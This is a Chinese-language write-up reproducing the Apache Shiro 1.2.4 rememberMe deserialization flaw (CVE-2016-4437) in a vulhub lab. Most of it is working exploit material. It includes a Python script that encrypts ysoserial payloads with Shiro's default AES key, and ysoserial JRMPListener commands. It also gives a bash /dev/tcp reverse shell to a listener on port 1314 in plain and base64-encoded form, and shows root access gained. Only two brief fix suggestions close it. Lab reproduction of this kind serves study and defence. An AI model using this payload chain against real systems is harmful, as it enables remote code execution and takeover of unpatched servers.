 

# Apache Shiro 反序列化[CVE-2016-4437]



## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。





## 影响版本

Apache Shiro <= 1.2.4





## 漏洞复现

利用vulhub靶场进行漏洞复现。

> **环境启动**
>
> 下载ApacheShiro 1.2.4组件，解压之后在文件目录下执行命令启动一个使用了Apache Shiro 1.2.4的Web服务：
>
> `docker compose up -d`

![image-20240408195135276](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408195135276.png)

服务启动后，访问`http://192.168.1.9:8080`可使用`admin:vulhub`进行登录。

![](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408142307308.png)

可以看到该页面，代表环境配置成功；

---



## 漏洞验证

> **抓包分析**

当我们使用BP抓包时，我们发现，当用户输入错误时，会响应`rememberMe=deleteMe`字段

![image-20240408212013324](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408212013324.png)

而且当用户输入正确，成功登录时，会返回`set-cookie RememberMe=deleteMe`和一个set-cookie RememberMe=base64加密后的cookie值。

![image-20240408211950812](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408211950812.png)

符合本特征的网站就是极有可能使用了shiro的框架，可能存在shiro反序列化漏洞。由于本漏洞没有回显, 所以我们需要先确认漏洞是否存在，这里用DNS解析记录来做判断。DNSLog 平台:`http://www.dnslog.cn/`。![image-20240408205429910](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408205429910.png)





> **使用编写脚本生成payload**

```py
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):    
    popen = subprocess.Popen(['/home/kali/tools/java/jdk1.8.0_301/bin/java', '-jar', '/home/kali/tools/ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)    
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()  
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") 
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)    
    file_body = pad(popen.stdout.read())    
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))    
    return base64_ciphertext
    
if __name__ == '__main__':   
         payload = encode_rememberme(sys.argv[1])    
         print "rememberMe={0}".format(payload.decode())   
```

![image-20240408205312194](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408205312194.png)

安装脚本需要的pycrypto库，用于在Python程序中实现数据加密和解密功能

```sh
/usr/local/bin/pip2 install pycrypto
```

![image-20240408203503336](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408203503336.png)

生成rememberMe.

```sh
┌──(root💀kali)-[/home/kali/tmp]
└─# python2  poc.py  192.168.1.9:7878
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rememberMe=8AarnSe9RWuPSeyf/TRjl/27KrrHuPdzj/0GZHe6sxLOM5GjlKY7xVEj6iupMjNdf6xOod9pXVveZjXUC0AxUGcG4PoKEQC3dL/8HyZ267CBeh0CoPb4sPmTB9lC4gH+K6A3WUpWNSM4hebRhBREk/HzA56jubY3jeRX12feG12NP8tY592zeKTjgpMdSjJoNKq+mt2kcG9B75H6WjinJaZTkBorlWbRMWlvWb4dRi3vVEedIzl3rCNGl0zmmVu23tsX3IjAFFRvA7vfRg9HEupq046eAN/ZTkXXQQk6bGvEb81JZfEXBOU+wHpjpUgiZ2L1VxpO1AvxmI0OgFDWa7MYFlKpC/8L88WOPr1HU1wMLw6UE164CZJrVC/Sb5izERq89P4izgXNdgmtK/PSWg==
```

将生成的rememberMe添加到BP的请求包cookie的位置,，进行重发。

![image-20240408221656623](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408221656623.png)



> **反序列化**

ysoserial是一个Java反序列化漏洞利用工具，它可以帮助攻击者构造恶意的Java对象，从而实现对目标系统的远程代码执行攻击。通过ysoserial，攻击者可以利用Java反序列化机制中的漏洞，将恶意代码注入到目标系统中，进而实现对目标系统的控制

```
ysoserial下载: https://github.com/insightglacier/Shiro_exploit/blob/master/ysoserial.jar
```

使用ysoserial工具创建一个JRMP监听器，监听7878端口，并生成一个包含恶意代码的payload，当目标系统反序列化该payload时，将会执行指定的恶意代码（这里是发送一个DNS日志记录请求）

```sh
/home/kali/tools/java/jdk1.8.0_301/bin/java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7878 CommonsCollections5 "ping z2uwve.dnslog.cn" 
```

![image-20240408205021818](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408205021818.png)

可以看到在vps对应的监听端口出看到有流量出来, 我们去平台查询ping命令是否执行成功。

![image-20240408205522585](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408205522585.png)



刷新记录, 可以看到ping命令成功执行

---



## 漏洞利用

> **反弹shell**

反弹shell命令：

```sh
/bin/bash -i >& /dev/tcp/192.168.1.9/1314 0>&1
```

需要进行base64编码: 【在线编码：`https://ares-x.com/tools/runtime-exec/`】

```sh
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS45LzEzMTQgMD4mMQ==}|{base64,-d}|{bash,-i}
```

构建payload，当目标系统反序列化该payload时，将会执行指定的恶意代码（这里是反弹一个Shell到攻击者的服务器上）：

```sh
/home/kali/tools/java/jdk1.8.0_301/bin/java -jarysoserial.jar ysoserial.exploit.JRMPListener7878 CommonsBeanutils1 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS45LzEzMTQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

![image-20240408210738114](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408210738114.png)

生成rememberMe

![image-20240408211441774](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408211441774.png)

监听 1314端口，并将生成的rememberMe添加到BP的请求包cookie的位置,，进行重发。

![image-20240408211512498](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408211512498.png)

![image-20240408211535498](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408211535498.png)

可以看到，数据包重发后，反弹shell成功；

![image-20240408211622095](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240408211622095.png)

测试，成功获取root权限；

---



## 修复建议

- 升级shiro到1.2.5及以上.
- 部署安全设备








